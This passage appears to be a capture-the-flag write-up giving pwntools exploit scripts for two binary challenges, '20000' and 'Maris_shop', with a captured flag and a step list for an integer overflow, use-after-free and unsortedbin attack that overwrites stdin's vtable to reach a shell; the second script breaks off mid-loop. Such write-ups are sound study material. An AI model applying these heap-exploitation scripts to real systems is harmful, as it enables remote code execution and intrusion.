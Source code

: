 input "sh" get shell

`flag{Are_y0u_A_h@cker_in_real-word?}`

```python=
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '110.10.147.106'
port = 15959

binary = "./20000"
context.binary = binary
elf = ELF(binary)

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})
  pass
else:
  r = remote(host ,port)

if __name__ == '__main__':
  r.recvuntil("PUT : ")
  r.sendline("17394")
  r.recvuntil("?\n")
  r.sendline("sh")
  r.sendline("cat flag")
  r.interactive()
```

### Maris_shop
> Billy
* Raise the money by integer overflow
* Buy 16 different items and it will free all and leave last item unclear.
* UAF on unsorted bin, we can leak libc address and do unsortedbin attack
* Overwrite stdin->_IO_buf_end by unsortedbin attack
* Calling fgets will overwrite the stdin->vtable
* Jump to one_gadget and get shell

```python=
from pwn import *

#r = process(["./Maris_shop"],env={"LD_PRELOAD":"./libc.so.6"})
r = remote("110.10.147.102", 7767 )
#r.interactive()
r.sendlineafter(":","1")
r.recvline()
price = int(r.recvline().split('-')[-1])
num = 0xffffd8f0/price
r.sendlineafter(":","1")
r.sendlineafter(":",str(num))
r.sendlineafter(":","4")
r.sendlineafter(":","1")
r.sendlineafter(":","0")

have = []
while len(have) < 16:
	r.sendlineafter(":","1")
	r.recvline()
	total = [ r.recvline().split(".")[-1] for _ in range(6)]

	for i in range(6):
```